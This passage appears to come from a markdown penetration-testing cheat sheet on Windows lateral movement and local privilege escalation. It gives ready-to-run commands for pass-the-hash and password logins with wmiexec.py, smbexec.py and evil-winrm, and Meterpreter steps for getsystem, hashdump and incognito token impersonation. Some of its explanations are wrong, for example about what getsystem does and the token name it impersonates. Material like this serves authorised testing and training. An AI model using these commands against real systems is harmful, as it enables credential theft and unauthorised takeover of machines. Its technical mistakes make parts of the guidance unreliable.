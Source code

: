 ### Wmiexec
```sh
wmiexec.py Administrator@10.10.10.1 -hashes [NTLM-hash]
```

### SMBExec
```sh
smbexec.py test.local/fcastle:'Password1'@10.10.10.1

smbexec.py test.local/fcastle@10.10.10.1 -hashes [NTLM-hash]
```

### Evil-WinRM
```sh
evil-winrm -i 10.10.10.1 -u fcastle -p 'Password1'


evil-winrm -i 10.10.10.1 -u fcastle -H [NTLM-hash]
```

---

## Local Privilege Escalation

### After getting a meterpreter shell, try the following command to see who we are in the machine
```sh
getuid

#Also run this following command to see the architecture of the host machine! We will assume that this returns a Windows X64 architecture!
getsystem
```
### If it returns `NT AUTHORITY` we can run anything in that machine without doing anything
You can run the command below to see all hashes stored in the machine
```sh
hashdump
```
### But if we are a user other `NT AUTHORITY` than we may or may not be able to do a hashdump, thus we need to check for token impersonations 

In this case, we will be using a module from Metasploit called `Incognito` which will allow us to impersonate as other users in that machine! but be sure to use `getprivs` to see if your account is allowed to impersonate as other users!
```sh
getprivs
```
If we see something like ImpersonateTokenPrivilege we may continue to the commands below
```sh
load incognito
list_tokens -u
```
If we see anything under the Delegation Tokens Available header we can impersonate that user!
```sh
impersonate_token "NT AUTHORITY"
```
